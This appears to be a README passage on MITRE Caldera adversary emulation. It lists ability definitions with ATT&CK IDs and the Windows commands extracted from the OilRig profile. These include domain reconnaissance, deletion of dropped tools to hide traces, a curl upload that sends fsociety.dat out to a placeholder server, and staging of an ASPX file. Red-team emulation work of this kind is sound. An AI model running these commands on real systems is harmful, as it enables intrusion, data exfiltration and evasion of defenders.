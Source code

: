   ```bash
      "technique": "Protocol Tunneling",
      "attack_id": "T1572"
    },
    {
      "ability_id": "d9c9a941-c0e8-4eed-8cc3-6511ad5b9e15",
      "platform": "windows",
      "commands": {
        "cmd": "del C:\\Users\\gosta\\AppData\\Roaming\\fsociety.dat C:\\Users\\Public\\Downloads\\plink.exe;\n"
      },
      "privilege": "Unknown",
      "tactic": "defense-evasion",
      "technique": "Indicator Removal on Host: File Deletion",
      "attack_id": "T1070.004"
    },
    {
      "ability_id": "16767c68-a865-46af-a0e4-ff8d742efc3f",
      "platform": "windows",
      "commands": {
        "cmd": "curl -s -H \"KEY:#{server.api.key}\" -H \"Content-Type: application/json\" -X PATCH http://#{caldera.server.ip}:8888/api/v2/agents/#{paw} -d \"{\\\"watchdog\\\":1}\"\n"
      },
      "privilege": "Unknown",
      "tactic": "defense-evasion",
      "technique": "Indicator Removal on Host: File Deletion",
      "attack_id": "T1070.004"
    }
  ]
  }
  ```

## Windows Commands extracted

- For adversary `OilRig`, extracting the commands executed in every ability:

```powershell
cat oilrig_windows_commands.txt 
cscript /nologo computername.vbs
cscript /nologo username.vbs
whoami
hostname
ipconfig /all
net user /domain
net group /domain
net group "domain admins" /domain
net group "Exchange Trusted Subsystem" /domain
net accounts /domain
net user
net localgroup administrators
netstat -na
tasklist
sc query
systeminfo
reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"
net user #{initial.target.user} /domain
net group "SQL Admins" /domain
nslookup #{second.target.host}
C:\Users\#{initial.target.user}\AppData\local\SystemFailureReporter\b.exe
curl -F "data=@C:\Users\#{initial.target.user}\AppData\Roaming\fsociety.dat" --header "X-Request-ID: #{initial.target.user}-#{paw}" #{server}/file/upload
copy  C:\Users\#{initial.target.user}\AppData\Local\SystemFailureReporter\contact.aspx C:\Users\Public\contact.aspx
```
